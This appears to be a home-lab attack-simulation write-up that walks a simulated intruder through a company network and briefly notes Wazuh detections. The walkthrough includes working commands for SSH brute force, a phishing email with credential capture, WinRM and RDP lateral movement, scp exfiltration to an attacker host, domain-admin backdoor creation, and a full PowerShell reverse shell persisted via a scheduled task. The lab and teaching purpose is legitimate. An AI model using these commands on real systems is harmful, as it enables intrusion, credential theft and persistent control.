






# Attack Simulation

This guide documents a complete cybersecurity attack simulation performed within the lab environment, demonstrating various phases of the cyber kill chain.

## Table of Contents
- [Attack Simulation](#attack-simulation)
  - [Table of Contents](#table-of-contents)
  - [Attack Overview](#attack-overview)
  - [Attack Infrastructure](#attack-infrastructure)
  - [Reconnaissance Phase](#reconnaissance-phase)
    - [Network Scanning](#network-scanning)
  - [Initial Access Phase](#initial-access-phase)
    - [1. SSH Brute Force Attack](#1-ssh-brute-force-attack)
    - [2. Phishing Attack](#2-phishing-attack)
  - [Lateral Movement Phase](#lateral-movement-phase)
    - [1. Access to Linux Client](#1-access-to-linux-client)
    - [2. Windows Client Access via WinRM](#2-windows-client-access-via-winrm)
    - [3. Domain Controller Access via RDP](#3-domain-controller-access-via-rdp)
  - [Data Exfiltration Phase](#data-exfiltration-phase)
  - [Persistence Phase](#persistence-phase)
    - [1. Domain Admin Account Creation](#1-domain-admin-account-creation)
    - [2. Scheduled Task with Reverse Shell](#2-scheduled-task-with-reverse-shell)
  - [Defense Insights](#defense-insights)

## Attack Overview

The attack simulation follows the standard cyber kill chain methodology:


Scenario: An attacker targets the project-x organization with the goal of gaining initial access, elevating privileges, moving laterally through the network, and exfiltrating sensitive data.

## Attack Infrastructure

The attack is launched from:
- **System**: project-x-attacker (Kali Linux)
- **Tools Used**: 
  - nmap (Network scanning)
  - Hydra (Password brute-forcing)
  - Evil-WinRM (Windows Remote Management exploitation)
  - NetExec (Authentication attacks)
  - Web server (Phishing)

## Reconnaissance Phase

The initial reconnaissance phase involves discovering hosts and services on the network.

### Network Scanning

```bash
nmap -p1-1000 -Pn -sV 10.0.0.8/24
```

Results revealed:
- Email server (10.0.0.8) with SSH (port 22) and SMTP (port 25)
- Linux client (10.0.0.101) with SSH (port 22)
- Windows client (10.0.0.100) with WinRM (ports 5985, 5986)
- Domain controller (10.0.0.5) with multiple services including RDP (port 3389)


## Initial Access Phase

Initial access was obtained through two vectors:

### 1. SSH Brute Force Attack

The email server was found to have SSH enabled with a weak root password:

```bash
hydra -l root -P /usr/share/wordlists/rockyou.txt ssh://10.0.0.8
```



The attack successfully discovered the password: `november`

### 2. Phishing Attack

A phishing site was deployed on the attack machine:

```bash
sudo touch /var/www/html/creds.log
sudo chmod 666 /var/www/html/creds.log
sudo service apache2 start
```

A phishing email was crafted on the compromised email server:

```bash
echo "<html><body><p>Dear Jane,
We noticed an unusual login attempt on your account, and for your security, we have temporarily locked access. To restore access, please verify your account credentials within the next 24 hours.
To verify your credentials, please click the link below:</p>
<a href='http://10.0.0.50'>Verify My Account</a>
<p>For assistance, please contact our support team at support@company.com.
Thank you for your prompt attention to this matter.
Best regards,
ProjectX Security Team</p>
</body></html>" > email.txt

cat email.txt | mail -s "Important, Verify Password" janed@linux-client
```



When the user submitted credentials, they were captured on the attacker's machine:

```bash
cat /var/www/html/creds.log
```

## Lateral Movement Phase

Using the compromised credentials, lateral movement was performed between systems.

### 1. Access to Linux Client

SSH access to the Linux client using the captured credentials:

```bash
ssh janed@10.0.0.101
```

### 2. Windows Client Access via WinRM

NetExec was used to test credentials against the Windows client:

```bash
nxc winrm 10.0.0.100 -u Administrator -p '@Deeboodah1!'
```

After confirming valid credentials, Evil-WinRM was used to gain shell access:

```bash
evil-winrm -i 10.0.0.100 -u Administrator -p '@Deeboodah1!'
```



### 3. Domain Controller Access via RDP

RDP access to the domain controller:

```bash
xfreerdp /v:10.0.0.5 /u:Administrator /p:@Deeboodah1! /d:corp.project-x-dc.com
```



## Data Exfiltration Phase

Sensitive data was identified and exfiltrated from the domain controller:

```powershell
# On Domain Controller
scp ".\secrets.txt" attacker@10.0.0.50:/home/attacker/my_sensitive_file.txt
```

## Persistence Phase

Two persistence mechanisms were implemented:

### 1. Domain Admin Account Creation

```powershell
net user project-x-user @mysecurepassword1! /add
net localgroup Administrators project-x-user /add
net group "Domain Admins" project-x-user /add
```

### 2. Scheduled Task with Reverse Shell

A reverse shell script was created on the attack machine and transferred to the domain controller:

```bash
# On attacker machine
cat > reverse.ps1 << 'EOF'
$ip = "10.0.0.50"
$port = 4444
$client = New-Object System.Net.Sockets.TCPClient($ip, $port)
$stream = $client.GetStream()
$writer = New-Object System.IO.StreamWriter($stream)
$reader = New-Object System.IO.StreamReader($stream)
$writer.AutoFlush = $true
$writer.WriteLine("Connected to reverse shell!")
while ($true) {
try {
    $command = $reader.ReadLine()
    if ($command -eq 'exit') {
        break
    }
    $output = Invoke-Expression $command 2>&1
    $writer.WriteLine($output)
} catch {
    $writer.WriteLine("Error: $_")
}
}
$client.Close()
EOF

python -m http.server
```

On the domain controller:
```powershell
# Download and schedule the reverse shell
Copy-Item -Path reverse.ps1 -Destination "C:\Users\Administrator\AppData\Local\Microsoft\Windows\reverse.ps1"

schtasks /create /tn "PersistenceTask" /tr "powershell.exe -ExecutionPolicy Bypass -File C:\Users\Administrator\AppData\Local\Microsoft\Windows\reverse.ps1" /sc daily /st 12:00
```

Testing the reverse shell:
```bash
# On attacker machine
nc -lvnp 4444
```



## Defense Insights

Throughout the attack, Wazuh detected various suspicious activities:

- Failed SSH login attempts
- WinRM authentication events
- File access to sensitive documents
- User creation events



These alerts demonstrate how proper security monitoring can detect attack activities at various stages of the kill chain, providing defenders with opportunities for intervention.